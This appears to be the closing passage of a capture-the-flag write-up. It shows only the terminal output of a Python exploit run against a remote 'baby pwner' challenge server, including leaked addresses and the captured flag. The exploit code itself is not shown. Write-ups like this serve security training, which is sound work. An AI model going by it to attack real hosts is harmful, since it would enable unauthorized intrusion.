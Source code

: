 and when we run the exploit:
```
$	python exploit.py 
[+] Opening connection to 163.172.176.29 on port 9035: Done
Hello baby pwner, whats your name?

input
[*] Switching to interactive mode
flag{hey_c0ngr4ts_Y0u_pwn3d_1t_y0u_4r3_n0_l0ng3r_a_b4by}
Ok cool, soon we will know whether you pwned it or not. Till then Bye (\xa0\x0)\xa0\x0+\xa0\x0                                                                                                                                                                                  8048914                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ffcefc48                                                                                                                                1
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to 163.172.176.29 port 9035
```

Just like that, we captured the flag `flag{hey_c0ngr4ts_Y0u_pwn3d_1t_y0u_4r3_n0_l0ng3r_a_b4by}`.
